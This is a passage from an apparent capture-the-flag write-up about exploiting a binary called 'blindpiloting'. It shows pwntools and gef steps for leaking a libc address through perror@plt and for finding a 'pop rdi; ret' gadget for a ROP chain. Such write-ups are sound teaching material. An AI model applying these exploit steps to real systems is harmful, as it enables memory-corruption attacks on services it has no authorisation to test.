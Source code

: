 To call `perror` to emit (leak) the `libc` address, we can use the PLT, in the right pane, type:

```
perror_plt = binary.plt['perror']
hex(perror_plt)
hex(procbase + perror_plt)
```

Output:

```
>>> perror_plt = binary.plt['perror']
>>> hex(perror_plt)
'0x820'
>>> hex(procbase + perror_plt)
'0x563df74f1820'
```

`0x563df74f1820 ` is the address to overwrite into the return address (stack).

In the left pane type `disas 0x563df74f1820` to confirm:

```
gef➤  disas 0x563df74f1820
Dump of assembler code for function perror@plt:
   0x0000563df74f1820 <+0>:	jmp    QWORD PTR [rip+0x20079a]        # 0x563df76f1fc0 <perror@got.plt>
   0x0000563df74f1826 <+6>:	push   0x6
   0x0000563df74f182b <+11>:	jmp    0x563df74f17b0
End of assembler dump.
```

Setting the return address in the stack to `procbase` + `0x820` (`0x563df74f1820`) will call `perror` and emit whatever RDI points to.

> This would be a good time to read up on GOT, PLT, and ROP.

Lastly we need a way _pop_ a value from the stack into RDI, and to do that we need ROP.  In the right pane, type:

```
context.clear(arch='amd64')
rop = ROP('blindpiloting')
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
hex(pop_rdi)
```

Output:

```
>>> context.clear(arch='amd64')
>>> rop = ROP('blindpiloting')
[*] Loaded 14 cached gadgets for 'blindpiloting'
>>> pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
>>> hex(pop_rdi)
'0xb13'
```

That is the location in `blindpiloting` where there is a `pop rdi` instruction followed by a `ret` instruction.  To illustrate this:
